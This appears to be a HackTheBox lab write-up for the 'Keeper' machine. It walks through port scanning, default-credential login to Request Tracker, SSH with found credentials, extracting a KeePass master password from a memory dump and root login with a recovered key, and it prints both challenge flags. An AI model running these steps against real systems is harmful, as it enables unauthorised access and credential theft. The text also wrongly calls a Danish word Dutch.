 ```yaml
---
layout: post
title: Keeper - Easy - Linux
date: 12-08-2023
categories: [CTF - HackTheBox]
tag: [Request Tracker, Dump File, KeePass, Putty Key, SSH]
---
```


# Nmap scan
```
# Nmap 7.93 scan initiated Sat Aug 12 20:03:13 2023 as: nmap -sC -sV -p- -oA nmap/keeper-allports -v 10.129.135.44
Nmap scan report for 10.129.135.44
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 12 20:03:37 2023 -- 1 IP address (1 host up) scanned in 24.70 seconds
```

# Inspecting port 80 - http://tickets.keeper.htb/rt/
nginx is hosting an application called Request Tracker 4.4.4. Default credentials allowed access to the admin account.

![e9cdb1b34e365d964d5f79976ce8c03d.png](../_resources/e9cdb1b34e365d964d5f79976ce8c03d.png)

# Discovering user credentials
User credentials discovered in the users profile.

![3f887204704d923cc6f79a9b001656c9.png](../_resources/3f887204704d923cc6f79a9b001656c9.png)

# SSH - lnorgaard
User credentials allowed SSH access.

```
┌─[✗]─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
30ece4a7c2139299d406f52d04485f5c
lnorgaard@keeper:~$ 
```

# Inspecting RT30000.zip
Folder contains a dump file and a KeePass vault. 

```
lnorgaard@keeper:~$ ls -la
total 85380
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 .
drwxr-xr-x 3 root      root          4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
-rw-r--r-- 1 root      root      87391651 Aug 13 21:34 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh
-rw-r----- 1 root      lnorgaard       33 Aug 13 21:29 user.txt
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ 
```

```
┌─[parrot@parrot]─[~/hackthebox/keeper/zipcontents]
└──╼ $ls -la
total 332808
drwxr-xr-x 1 parrot parrot        88 Aug 13 20:35 .
drwxr-xr-x 1 parrot parrot       126 Aug 13 20:35 ..
-rwxr-x--- 1 parrot parrot 253395188 May 24 11:51 KeePassDumpFull.dmp
-rwxr-x--- 1 parrot parrot      3630 May 24 11:51 passcodes.kdbx
```

# Extracting KeePass master password
Source: https://github.com/CMEPW/keepass-dump-masterkey

```
┌─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $python3 dump.py zipcontents/KeePassDumpFull.dmp 
2023-08-13 20:36:16,740 [.] [main] Opened zipcontents/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

# Password Analysis
Using google translate on the complete word `med` suggests the word is Dutch. To expand on that the missing letter in `fl●de` is probably a vowel. Googling `med flode` returns the following as the top result.

`Rødgrød med fløde, red berry pudding with cream, is the hallmark dessert of Denmark. A simple yet delicious dessert, this dish is made with four ingredients—berries, water, sugar, and potato starch or cornstarch—then topped with heavy cream. Use tart berries like red currants if you can find them.`

This seems to fit the pattern if possible passwords. The password should either be `Rødgrød med fløde` or `rødgrød med fløde`.

# Accessing KeePass vault
The password was correct and opened the vault exposing a password and a Putty SSH key.

![da312e074a621f842760f6536e049026.png](../_resources/da312e074a621f842760f6536e049026.png)

# Converting Putty key to OpenSSH
`puttygen.exe > Import Key > Export OpenSSH key`

# Logging in as root
`ssh -i root.key root@keeper.htb`

```
┌─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $ssh -i root.key root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
root@keeper:~# cat /root/root.txt
823f37327dcc60f7c3cf05fc49d8da67
root@keeper:~# 
```

